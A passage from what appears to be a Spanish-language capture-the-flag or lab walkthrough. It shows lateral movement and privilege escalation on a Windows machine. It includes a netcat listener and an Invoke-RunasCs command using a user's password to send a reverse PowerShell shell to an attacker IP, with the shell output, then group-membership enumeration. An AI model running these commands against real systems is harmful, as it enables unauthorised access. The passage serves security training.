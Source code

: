 Antes nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y en la maquina victima ejecutamos el modulo de la siguiente forma:

```powershell
Invoke-RunasCs akanksha sweetgirl powershell -Remote <IP_ATTACKER>:<PORT>
```

Info:

```
[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-3eb0ac$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 1872 created in background.
```

Ahora si volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.1.146] from (UNKNOWN) [192.168.1.154] 49761
Windows PowerShell 
Copyright (C) Microsoft Corporation. Todos los derechos reservados.

PS C:\Windows\system32> whoami
whoami
win-iurf14rbvgv\akanksha
```

Vemos que ha funcionado, por lo que seremos dicho usuario.

## Escalate Privileges

Vamos a ver que permisos tenemos con dicho usuario:

```powershell
whoami /all
```

Info:

```
INFORMACI�N DE USUARIO
----------------------

Nombre de usuario        SID                                           
======================== ==============================================
win-iurf14rbvgv\akanksha S-1-5-21-2519875556-2276787807-2868128514-1001


INFORMACI�N DE GRUPO
--------------------

Nombre de grupo                              Tipo           SID                                            Atributos                                                               
============================================ ============== ============================================== ========================================================================
Todos                                        Grupo conocido S-1-1-0                                        Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
WIN-IURF14RBVGV\Idministritirs               Alias          S-1-5-21-2519875556-2276787807-2868128514-1002 Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
BUILTIN\Usuarios                             Alias          S-1-5-32-545                                   Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
NT AUTHORITY\INTERACTIVE                     Grupo conocido S-1-5-4                                        Grupo obligatorio, Habilitado de manera predeterminada, Grupo habilitado
```